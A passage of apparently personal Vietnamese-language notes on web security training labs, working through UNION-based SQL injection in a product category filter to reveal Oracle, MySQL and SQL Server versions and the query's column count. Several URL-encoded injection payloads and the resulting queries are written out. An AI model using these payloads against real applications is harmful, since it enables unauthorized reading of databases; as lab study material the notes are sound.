 Tổng quan:

- Lab yêu cầu truy vấn ra phiên bản của Oracle được sử dụng
- Web bán hàng như bình thường, cho phép lọc sản phẩm theo category → truyền tham số vào category là phương tiện có thể khai thác

Khai thác

- Câu lệnh Select BANNER from v$version giúp truy vấn ra phiên bản của Oracle
- Sử dụng UNION để khiến server truy vấn thêm theo ý của mình
- Truyền vào category: category=%27%20UNION%20SELECT%20BANNER%2C%20FROM%20V%24VERSION%2D%2D
- Thu được:

Select …. FROM items WHERE category=’’ UNION select BANNER from v$version

- Nhưng mà lại gây ra Internal Server Error. Sau khi tìm hiểu thì em nhận ra: muốn UNION thì câu lệnh select BANNER …. cần thỏa mãn tính khả hợp, tức số cột mà 2 câu lệnh trả về giống nhau. Website cho biết tên và mô tả sản phẩm, tức câu query gốc trả về 2 cột → cần bổ sung, null để thu được:
- Select name, description FROM items WHERE category=’’ UNION select BANNER, null from v$version
- Lab được giải thành công

**Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**

Tổng quan:

- Tương tự lab trước, nhưng khai thác trên MySQL và Microsoft SQL Server

Khai thác:

category=%27%20UNION%20SELECT%20%40%40version%2C%20%27abc%27%2D%2D%20

→ SELECT name, description FROM items WHERE category=’’ UNION SELECT @@version, ‘abc’#

**Lab: SQL injection attack, listing the database contents on non-Oracle databases**

Tổng quan:

- Web vẫn có phần category có thể khai thác phục vụ cho SQLi

Khai thác:

- Em thử category=%27%20UNION%20SELECT%20%27abc%27%2C%27def%27%2D%2D
Tức SELECT name, description FROM items WHERE category=’’ UNION SELECT ‘abc’, ‘def’—

Payload này ra kết quả → chứng tỏ : query gốc trả về 2 cột, và DB đang dùng là Postgre hoặc Microsoft

![image.png](image.png)
